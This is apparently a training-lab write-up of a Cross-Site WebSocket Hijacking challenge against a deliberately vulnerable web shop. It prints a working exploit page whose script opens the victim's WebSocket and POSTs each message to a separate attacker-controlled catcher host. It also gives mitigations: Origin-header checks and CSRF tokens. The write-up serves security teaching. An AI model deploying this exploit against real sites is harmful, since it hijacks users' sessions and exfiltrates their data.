 # Cowbell Shop 4 - CSWSH

## Challenge

Hijack another user WebSocket connection with an CSRF attack.

## Answer

### Explain the security problem 

* Web Sockets do not adhere to the same origin policy
* Any domain can open a web socket connection to another domain and send/receive data

### Explain your attack. \(exploit, screenshot, hacking journal\)  

Step 1-3\) Setup Hacking-Environment.  Open a Request Catcher and Theia Web IDE

Step 4\)  Changed the `change_me.html` file to:

{% code title="change\_me.html" %}
```markup
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>CSWSH</title>
  </head>
  <body>
    <h1>CSWSH</h1>
    <p>You got hacked!</p>
    <script type="text/javascript">
      var socket = new WebSocket(
        "wss://1b747ea1-3a09-4acc-8d8a-031e2fd2e267.idocker.vuln.land/socket.io/?EIO=3&transport=websocket"
      );
      socket.onopen = function(openEvent) {
        console.log(openEvent);
      };
      socket.onmessage = function(msgEvent) {
        console.log(msgEvent.data);
        var oReq = new XMLHttpRequest();
        oReq.open(
          "POST",
          "https://9a471a99-a077-47e4-a454-f7e6676acc1f.idocker.vuln.land/extractedData"
        );
        oReq.send(JSON.stringify(msgEvent.data));
      };
      socket.onerror = function(errEvent) {
        console.log(errEvent);
      };
    </script>
  </body>
</html>
```
{% endcode %}

Step 5\) Open webshop in new Incognito Tab and login in as the attacker

Step 6\) Pass the attackers url `https://16dfe2ff-d02a-4a24-8d06-21e07055a9af.idocker.vuln.land/change_me.html`  to the victim. Victim opens the url and gets the following output:  


![](../../.gitbook/assets/image%20%28371%29.png)

![](../../.gitbook/assets/image%20%28372%29.png)

Step 8\) check in the Request Catcher logs the flag received from the victim

![](../../.gitbook/assets/image%20%28373%29.png)



### Explain mitigation \(remedy\)

* Check the Origin header of the WebSocket handshake request on the server, since that header was designed to protect the server against attacker-initiated cross-site connections of victim browsers!
* Use **session-individual random tokens \(like CSRF-Tokens\)** on the handshake request and verify them on the server.
  * Embed the token into one of the HTML pages of your web application.
  * Create a REST endpoint where your client can fetch the token



### Answers

#### Are the CORS errors a problem for the attacker?

No, since WebSockets are not subordinated to CORS 

#### Explain the meaning of the errors

The access to the `/extractedData` target site from the `origin` is not allowed, since there is not Acces-Control-Allow-Origin HTTP Response Header present on the target site and therefore it violates the CORS policy

#### How do we mitigate the risk of a web socket based XSRF attack?

See above \(CSRF-Tokens with validation on server\)

